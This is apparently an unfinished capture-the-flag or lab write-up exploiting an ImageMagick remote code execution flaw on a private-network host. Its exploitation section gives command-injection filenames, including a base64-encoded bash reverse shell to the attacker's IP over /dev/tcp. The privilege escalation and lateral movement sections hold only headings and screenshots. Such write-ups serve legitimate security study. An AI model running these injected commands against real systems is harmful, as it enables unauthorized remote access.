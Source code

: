 #InProgress 
```IP
192.168.195.178
```
# Enumeration

## HTTP 80
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241127102213.png?raw=true)

# Exploitation
We find the following Remote Code Execution vulnerablity:
https://github.com/ImageMagick/ImageMagick/issues/6339
We test it with ping
```
cp test.png '|test"`ping -c 5 192.168.45.237`".jpg'
```
Indeed we receive a response
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241127102941.png?raw=true)
```
echo "bash -i >& /dev/tcp/192.168.45.237/80 0>&1" |base64
```
```
cp test.png '|test"`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIzNy84MCAwPiYxCg==|base64 -d|bash`".jpg'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241127111925.png?raw=true)
# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241127112224.png?raw=true)
## Automated

### Peass
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241127112623.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241127112643.png?raw=true)
### Mimikatz

# Lateral Movement
